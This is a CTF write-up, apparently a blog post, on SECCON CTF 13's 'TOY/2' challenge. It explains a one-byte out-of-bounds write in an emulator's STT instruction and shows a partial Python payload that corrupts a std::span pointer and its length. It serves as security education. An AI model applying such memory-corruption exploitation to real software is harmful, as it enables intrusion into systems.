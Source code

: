 +++
title = 'TOY/2 - SECCON CTF 13'
date = 2024-11-24T14:53:47+01:00
draft = false
+++

## **TOY/2:**

this weekend we played as P1G SEKAI and managed to qualify to the finals. TOY/2 was a challenge I solved.

in this challenge we’re given a C++ binary that emulates some 16-bit architecture.

it had several instructions, one of them included an oob bug:

```cpp
case 13: /* STT */
    mem_write(_regs.a & (size() - 1), _regs.t);
    break;
```

this is bad code, since we write two bytes but the `AND` let’s us place those one byte before the emulator memory ends → one-byte oob write.

the memory uses `std::span<uint8_t>`, which has a pointer to the start of data right after its contents. we can elevate our oob privileges to also change the size of `_mem` to bypass checks.

```py
######################## overwrite ptr 

payload = b""
payload += _jmp(0x2)
payload += p16(0x8)
# user data
payload += p16((1 << 12) - 1)
payload += b"A\xd8"
#
payload += _lda(0x6) # 0x8
payload += _tat()
payload += _lda(0x4)
payload += _stt()

######################## padding and jump after move backward

payload += _tat()*11
payload += _jmp(0x30) # 0x2e
payload += p16(0x50)
payload += _tat()*3

######################## set length and corrupt ptr

payload += _jmp(0x12)
payload += p16(0x1c)
# user data
payload += p16(0xfe8) # 0x14
payload += p16(0x8000) # 0x16
payload += p16(0xfdf) # 0x18
payload += b"A\xb0" # 0x1a
#
payload += _lda(0x16) # 0x1c
payload += _tat()
payload += _lda(0x14) 
payload += _stt()

payload += _lda(0x1a)
payload += _tat()
payload += _lda(0x18)
```